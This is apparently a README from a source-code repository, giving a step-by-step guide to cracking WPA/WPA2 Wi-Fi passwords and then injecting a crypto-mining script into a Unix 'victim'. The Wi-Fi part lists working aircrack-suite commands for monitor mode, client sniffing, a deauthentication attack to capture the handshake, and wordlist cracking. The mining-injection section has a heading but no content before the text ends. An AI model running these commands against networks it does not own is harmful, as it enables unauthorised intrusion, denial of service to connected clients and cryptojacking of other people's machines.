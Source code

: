 # Gaining access to WPA/WPA2 with short/easy password and inject mining script to Unix victim
## Part 1. Gaining access to WIFI:
1. Install kali
2. Buy and hook a NIC (I used alfa awus036neh) that can use monitor mode to VM (assuming your interface name is wlan0)
``` 
ifconfig wlan0 down && iwconfig wlan0 mode monitor && ifconfig wlan0 up
OR
airmon-ng start wlan0
```
3. Sniff the environment for victim WIFI and capture bssid of target WIFI (Assuming target bssid is BSSID channel C)
```
airodump-ng wlan0
```
4. Sniff the MAC address of clients connected to it (Assuming target mac is MAC) 
```
airodump-ng --bssid BSSID --channel C --write output wlan0 
```
5. Get the handshake traffic. WPA/WPA2 is more secure than WEP so need to capture WPA/WPA2 handshake traffic since it contains Message Integrity Code (MIC) sent from client during handshake. To get the handshake traffic, use deauthentication attack to kick a currently connected client offline and capture it’s traffic when it reconnects.
```
aireplay --deauth 0 -a BSSID -c MAC wlan0
```
6. Get a wordlist. Two approaches for this part. (Assuming wordlist file is wl.txt)
   1. Downloaded wordlists from https://github.com/berzerk0/Probable-Wordlists/tree/master/Real-Passwords/WPA-Length 
   2. Generated my custom wordlist. Since when I am attacking my own wifi, I have some information about the password pattern and it makes the process easier. In real world this process is done by social engineering.
7. Compare the captured MIC with locally generated MIC from password from wordlist to find the correct password. 
```
aircrack-ng output-01.cap -w wl.txt
```
## Part 2. Injecting malicious script to victim machine.

